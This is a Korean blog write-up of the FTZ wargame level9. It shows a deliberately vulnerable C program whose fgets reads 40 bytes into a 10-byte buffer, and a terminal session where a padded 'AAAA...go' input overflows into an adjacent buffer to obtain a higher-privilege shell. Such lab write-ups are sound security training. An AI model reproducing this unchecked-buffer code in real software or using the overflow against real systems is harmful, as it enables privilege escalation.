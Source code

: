```yaml
---
title: "[FTZ] level9 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level9 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level9 풀이
{: .notice--warning}


# 문제

계정 : level9/apple

**hint**
```
다음은 /usr/bin/bof의 소스이다.

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}

이를 이용하여 level10의 권한을 얻어라.
```

# 풀이

bof를 이용해서 buf2에 데이터가 buf데이터를 덮어써야 합니다.

우선 buf2와 buf 가 각각 몇바이트 만큼 할당 받았는지 확인 합니다.

gdb를 실행하려고 하니, permission denied가 나옵니다. 

그냥 몇개 안되니 brute force를 해봅니다.

데이터의 할당은 4바이트 단위로 되기 때문에 12, 16 , 20 .. 이렇게 수행을 합니다.

다음과 같이 16개의 A로 덮어쓴 뒤에 쉘을 획득할 수 있었습니다.

```sh
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAAAAgo
[level9@ftz level9]$ /usr/bin/bof
It can be overflow : AAAAAAAAAAAAAAAAgo
Good Skill!
[level10@ftz level9]$ id
uid=3010(level10) gid=3009(level9) groups=3009(level9)

```

![image](https://user-images.githubusercontent.com/33647663/167300634-e8336996-5095-4d2b-b04d-422a99991637.png)


